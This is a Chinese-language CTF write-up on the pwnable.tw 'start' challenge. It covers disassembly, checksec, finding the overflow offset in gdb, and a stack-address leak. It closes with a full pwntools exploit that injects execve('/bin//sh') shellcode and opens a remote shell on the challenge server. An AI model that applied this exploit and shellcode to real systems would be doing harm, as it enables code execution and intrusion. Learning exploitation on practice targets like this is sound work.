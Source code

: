 # Start
## nc
> nc chall.pwnable.tw 10000

首先执行一下可执行程序发现输出 Let's start the CTF:

之后等待用户输入，然后退出程序

拖入ida分析程序
```
.text:08048060                     public _start
.text:08048060     _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060 000                 push    esp
.text:08048061 004                 push    offset _exit
.text:08048066 008                 xor     eax, eax
.text:08048068 008                 xor     ebx, ebx
.text:0804806A 008                 xor     ecx, ecx
.text:0804806C 008                 xor     edx, edx
.text:0804806E 008                 push    3A465443h
.text:08048073 00C                 push    20656874h
.text:08048078 010                 push    20747261h
.text:0804807D 014                 push    74732073h
.text:08048082 018                 push    2774654Ch
.text:08048087 01C                 mov     ecx, esp        ; addr
.text:08048089 01C                 mov     dl, 14h         ; len
.text:0804808B 01C                 mov     bl, 1           ; fd
.text:0804808D 01C                 mov     al, 4
.text:0804808F 01C                 int     80h             ; LINUX - sys_write
.text:0804808F                                             ; sys_write(1,'Let's start the CTF:',20)
.text:08048091 01C                 xor     ebx, ebx
.text:08048093 01C                 mov     dl, 3Ch
.text:08048095 01C                 mov     al, 3
.text:08048097 01C                 int     80h             ; LINUX -
.text:08048099 01C                 add     esp, 1Ch
.text:0804809C 000                 retn
.text:0804809C     _start          endp

```
于是逻辑很清晰，就是先执行sys_write(1,"Let's start the CTF:",20)

后执行sys_read(0,&ecx,20)

即先向标准输出写入20字节字符

然后从标准输入读取20字节

由于在mac中无法调试ELF程序于是我用了skysider/pwndocker

> docker pull skysider/pwndocker

> docker run -it skysider/pwndocker

首先checksec
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```
发现基本没有保护
可以看见No PIE，那么我们首先查看一下docker是否开启ASLR
```
root@571503229c76:/proc/sys# cat /proc/sys/kernel/randomize_va_space
2
```

执行echo 0 /proc/sys/kernel/randomize_va_space会报错

gdb调试start也会出现异常导致程序运行起来但是无法停止调试的情况

这时需要在docker run时加入选项 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined
重新启用docker发现可以正常调试了

分析代码已经可以知道这是一个栈溢出漏洞，栈空间大小为20。但我们还是可以通过脚本跑一下

并且由于0x08048087 mov ecx,esp可以导致栈基址泄露

而我们程序没有任何保护，因此可以写入shellcode，控制EIP指向shellcode从而执行任意代码。

>pattern.py

首先通过pattern生成一个100bytes大小的测试字符串

root@571503229c76:~/pwn/pwnable.tw/start# python pattern.py create 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
root@571503229c76:~/pwn/pwnable.tw/start# gdb start
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 165 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from start...(no debugging symbols found)...done.
pwndbg> r
Starting program: /root/pwn/pwnable.tw/start/start
Let's start the CTF:Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37614136 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x3c
 EBX  0x0
*ECX  0xffffd7a4 ◂— 0x41306141 ('Aa0A')
*EDX  0x3c
 EDI  0x0
 ESI  0x0
 EBP  0x0
*ESP  0xffffd7bc ◂— 0x41386141 ('Aa8A')
*EIP  0x37614136 ('6Aa7')
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x37614136










─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffffd7bc ◂— 0x41386141 ('Aa8A')
01:0004│      0xffffd7c0 ◂— 0x62413961 ('a9Ab')
02:0008│      0xffffd7c4 ◂— 0x31624130 ('0Ab1')
03:000c│      0xffffd7c8 ◂— 0x41326241 ('Ab2A')
04:0010│      0xffffd7cc ◂— 0x62413362 ('b3Ab')
05:0014│      0xffffd7d0 ◂— 0x35624134 ('4Ab5')
06:0018│      0xffffd7d4 ◂— 0x41366241 ('Ab6A')
07:001c│      0xffffd7d8 ◂— 0x62413762 ('b7Ab')
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 37614136
Program received signal SIGSEGV (fault address 0x37614136)
pwndbg> Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Undefined command: "Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A".  Try "help".
pwndbg> q

root@571503229c76:~/pwn/pwnable.tw/start# python pattern.py offset 0x37614136
hex pattern decoded as: 6Aa7
20
```
那么攻击思路就很明确了，利用栈可执行向栈中写入shellcode，然后通过mov ecx,esp泄露栈地址，然后sys_write会将esp输出，再将shell写入栈空间中，构造返回地址为esp+0x14，将shellcode写入esp+0x14内存中，即可完成pwn

攻击脚本如下：
```python
#!/bin/bash
# coding = utf-8
# author = Mr.BeanX
# date = 2018-5-27

from pwn import *

host = 'chall.pwnable.tw'
port = 10000

gadget = 0x8048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

def exp():
	p = remote(host,port)
	print p.recv()
	p.send('A'*20+p32(gadget))
	leak_stack = u32(p.recv(4))
	print 'stack addr: '+hex(leak_stack)

	payload = 'A'*0x14+p32(leak_stack+0x14)+shellcode
	p.send(payload)
	p.interactive('\nshell: ')

exp()


```
